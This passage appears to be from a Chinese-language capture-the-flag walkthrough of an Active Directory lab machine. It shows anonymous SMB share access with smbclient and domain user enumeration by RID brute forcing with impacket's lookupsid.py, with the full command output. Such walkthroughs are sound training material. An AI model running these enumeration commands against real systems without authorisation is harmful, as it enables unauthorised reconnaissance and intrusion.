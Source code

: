 成功列出了多个共享，其中 `nothinghere` 看起来比较可疑。我们尝试匿名连接到这个共享并查看其内容。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ smbclient //192.168.205.132/nothinghere -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Aug 18 08:03:56 2025
  ..                                DHS        0  Mon Aug 18 08:05:08 2025
  readme.txt                          A      135  Mon Aug 18 07:57:00 2025

                12923135 blocks of size 4096. 9365851 blocks available
smb: \> get readme.txt 
getting file \readme.txt of size 135 as readme.txt (13.2 KiloBytes/sec) (average 13.2 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat readme.txt   
It’s not about this directory — the key point is your anonymous permissions. Think about what you can do with SMB anonymous access.
```

`readme.txt` 文件的内容给出了明确的提示：关键在于利用 SMB 的匿名访问权限进行下一步操作。

## **2.2 域内用户枚举**

利用已知的 SMB 匿名登录权限（空会话），可以使用 `impacket` 工具集中的 `lookupsid.py` 脚本，通过暴力猜解 RID (Relative ID) 的方式来枚举域内的用户和组。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@192.168.205.132
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Brute forcing SIDs at 192.168.205.132
[*] StringBinding ncacn_np:192.168.205.132[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3649830887-1815587496-1699028491
498: NOVICE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: NOVICE\Administrator (SidTypeUser)
501: NOVICE\Guest (SidTypeUser)
502: NOVICE\krbtgt (SidTypeUser)
512: NOVICE\Domain Admins (SidTypeGroup)
513: NOVICE\Domain Users (SidTypeGroup)
514: NOVICE\Domain Guests (SidTypeGroup)
515: NOVICE\Domain Computers (SidTypeGroup)
516: NOVICE\Domain Controllers (SidTypeGroup)
517: NOVICE\Cert Publishers (SidTypeAlias)
518: NOVICE\Schema Admins (SidTypeGroup)
519: NOVICE\Enterprise Admins (SidTypeGroup)
520: NOVICE\Group Policy Creator Owners (SidTypeGroup)
521: NOVICE\Read-only Domain Controllers (SidTypeGroup)
522: NOVICE\Cloneable Domain Controllers (SidTypeGroup)
525: NOVICE\Protected Users (SidTypeGroup)
526: NOVICE\Key Admins (SidTypeGroup)
527: NOVICE\Enterprise Key Admins (SidTypeGroup)
553: NOVICE\RAS and IAS Servers (SidTypeAlias)
571: NOVICE\Allowed RODC Password Replication Group (SidTypeAlias)
572: NOVICE\Denied RODC Password Replication Group (SidTypeAlias)
1000: NOVICE\DC$ (SidTypeUser)
1101: NOVICE\DnsAdmins (SidTypeAlias)
1102: NOVICE\DnsUpdateProxy (SidTypeGroup)
1104: NOVICE\MrRobot (SidTypeUser)
```
